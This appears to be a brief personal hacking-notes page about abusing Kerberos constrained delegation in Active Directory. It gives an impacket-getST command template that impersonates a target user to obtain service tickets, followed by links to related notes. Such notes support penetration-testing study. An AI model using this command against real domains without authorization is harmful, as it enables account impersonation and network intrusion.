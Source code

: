 # active directory  delegation constrained
can authenticate to any service on the network.
use `impacket-getST` to get service ticket.
get SPN from the last column of `impacket-findDelegation` "DelegationRightsTo".
```bash
impacket-getST -spn SERVICE/HOSTNAME_YOU_HAVE_DELEGATION_RIGHTS_TO.FQDN -impersonate TARGET_USER DOMAIN/USERNAME:PASSWORD
```

` zet/20221003151125/README.md `

# Related

- [20221014185654](/zet/20221014185654/README.md) kb file named kb/hacking/windows/windows-active-directory-and-privilege-information.md
- [20221007220451](/zet/20221007220451/README.md) hacking notes hub
- [20221003151127](/zet/20221003151127/README.md) active directory  delegation
- ~/kb/hacking/windows/windows-active-directory-and-privilege-information.md

Tags:

    #hacking #windows
